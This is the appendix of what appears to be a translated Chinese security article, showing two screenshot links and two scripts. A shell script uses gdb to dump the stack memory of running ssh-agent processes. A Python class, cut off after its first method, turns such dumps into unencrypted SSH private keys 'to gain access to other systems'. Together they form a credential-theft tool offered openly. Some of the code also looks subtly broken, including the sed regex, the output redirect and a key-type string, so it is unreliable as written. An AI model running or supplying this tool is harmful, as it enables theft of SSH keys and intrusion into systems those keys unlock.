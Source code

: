 附1：译者测试截图
---------

![enter image description here](http://drops.javaweb.org/uploads/images/066aa4cf8de432a6badf6122e56dfa6df04fbeff.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/e47c433da6f3ea91b0eeed839e900d0dbc872c90.jpg)

附2：文中涉及脚本
---------

**grabagentmem.sh：**

```
# First argument is the output directory.  Use /tmp if this is not specified.
outputdir="/tmp"

# Grab pids for each ssh-agent
sshagentpids=$(ps --no-headers -fC ssh-agent | awk '{print $2}')

# Iterate through the pids and create a memory dump of the stack for each
for pid in $sshagentpids; do
    stackmem="$(grep stack /proc/$pid/maps | sed -n 's/^([0-9a-f]*)-([0-9a-f]*) .*$/1 2/p')"
    startstack=$(echo $stackmem | awk '{print $1}')
    stopstack=$(echo $stackmem | awk '{print $2}')

    gdb --batch -pid $pid -ex "dump memory $outputdir/sshagent-$pid.stack 0x$startstack 0x$stopstack" 2&>1 >/dev/null 

    # GDB doesn't error out properly if this fails.  
    # This will provide feedback if the file is actually created
    if [ -f "$outputdir/sshagent-$pid.stack" ]; then
        echo "Created $outputdir/sshagent-$pid.stack"
    else
        echo "Error dumping memory from $pid"
    fi
done

```

**parse_mem.py：**

```
import sys
import base64
from pyasn1.type import univ
from pyasn1.codec.der import encoder


class sshkeyparse:
    """ This class is designed to parse a memory dump of ssh-agent and create
    unencrypted ssh keys that can then be used to gain access to other
    systems"""
    keytypes = {
        'rsa': "ssh-rsa",
        'dsa': "ssh-dss",
        'ecsda': "ecdsa-sha2-nisp256",
        'ed25519': "ssh-ed25519"
    }

    def read(self, memdump):
        """ Reads a file and stories it in self.mem"""
        self.inputfile = memdump
        file = open(memdump, 'rb')
        self.mem = "".join(file.readlines())
        file.close()

```